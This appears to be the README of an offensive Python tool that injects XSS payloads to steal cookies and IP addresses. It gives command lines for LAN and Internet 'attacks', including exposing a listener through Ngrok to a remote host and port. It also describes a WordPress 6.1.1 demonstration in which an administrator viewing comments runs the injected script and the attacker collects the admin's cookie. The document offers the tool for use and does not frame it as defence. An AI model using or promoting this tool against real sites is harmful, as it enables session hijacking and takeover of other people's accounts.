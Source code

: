 # XSS steals cookies
* The current version v3.0 is simpler and faster
* Obtain the victim's Internet IP address
* Python version 3.6 or above
* Automatically steal cookies
* Compatible with Windows or Linux
## usage method
  * View help information

      ```#python3 XSS_Tool_V3.0.py -h```

  ![图片名称](./Demo_image/Help.png "Help")  

  * LAN attack

      ```#python3 XSS_Tool_V3.0.py -lp (Local port)```

  * Internet attack

      ```#python3 XSS_Tool_V3.0.py -t -lp (Local port) -rh (Remote host IP) -rp (Remote host port)```

## Effect demonstration 
 * We will use WordPress-6.1.1 for XSS attack simulation test
 * _If your machine has a public IP address, just listen to the local port_

# Use Extranet attack
* Enable port forwarding (Ngrok is used for demonstration)

    ![图片名称](./Demo_image/forwarding.png "Port forwarding")  

* Use Extranet attack

    ```#python3 XSS_Tool_V3.0.py -t -lp 8080 -rh ***.***.***.*** -rp 10029```

    ![图片名称](./Demo_image/Internet.png "Extranetattack")  


# Use Intranet attack [Now Test]
* You can use the - lp parameter to specify the port. If you do not write, the default port is 8888

```#python3 XSS_Tool_V3.0.py```

![图片名称](./Demo_image/Runing.png "Run")  

* Copy payload and inject XXS injection point

![图片名称](./Demo_image/Runing.png "Run")  

----------------Server Admin------------------------

* Normal status of administrator

![图片名称](./Demo_image/Admin_no_hack.png "Admin_no_hack")  

* The administrator was hacked to execute malicious code when viewing comments

![图片名称](./Demo_image/Admin_hacked2.png "Admin_hacked2")  

-----------------Hacker--------------------------
* Hacker gets the administrator's cookie

![图片名称](./Demo_image/Hack_Get_Cookie.png "Hack_Get_Cookie")
